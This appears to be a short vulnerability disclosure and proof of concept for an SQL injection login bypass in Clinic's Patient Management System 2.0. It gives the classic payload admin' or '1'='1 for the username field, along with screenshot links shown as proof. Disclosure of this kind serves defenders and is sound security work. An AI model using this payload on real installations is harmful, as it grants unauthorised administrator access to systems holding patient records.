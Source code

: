 #### Title: Clinic's Patient Management System 2.0 SQLi
#### Author: Ashish Kumar (https://www.linkedin.com/in/ashish-kumar-0b65a3184)
#### Date: 04.07.2022
#### Vendor: https://www.sourcecodester.com/users/tips23
#### Software: https://www.sourcecodester.com/php-clinics-patient-management-system-source-code
#### Version: 2.0
#### Reference: https://github.com/CyberThoth/CVE/blob/main/CVE/Clinic's%20Patient%20Management%20System/SQLi/POC.md

#### Description:
### It was discovered that SQL Injection techniques can be used to fool the application into authenticating without the needing valid credentials. SQL Injection vulnerabilities on login pages expose an application to unauthorized access at the administrator level, thereby severely compromising the security of the application.

# Status: CRITICAL

### [+] Payloads:

``` 
Username: = admin' or '1'='1
Password: = Cyberthoth;)

```


## Proof and Exploit:
![image](https://github.com/CyberThoth/CVE/blob/5198ef2d56f9c818654bbe131c7f7e3055923f23/CVE/Clinic's%20Patient%20Management%20System/SQLi/1.png)

![image](https://github.com/CyberThoth/CVE/blob/5198ef2d56f9c818654bbe131c7f7e3055923f23/CVE/Clinic's%20Patient%20Management%20System/SQLi/2.png)

![image](https://github.com/CyberThoth/CVE/blob/5198ef2d56f9c818654bbe131c7f7e3055923f23/CVE/Clinic's%20Patient%20Management%20System/SQLi/3.png)


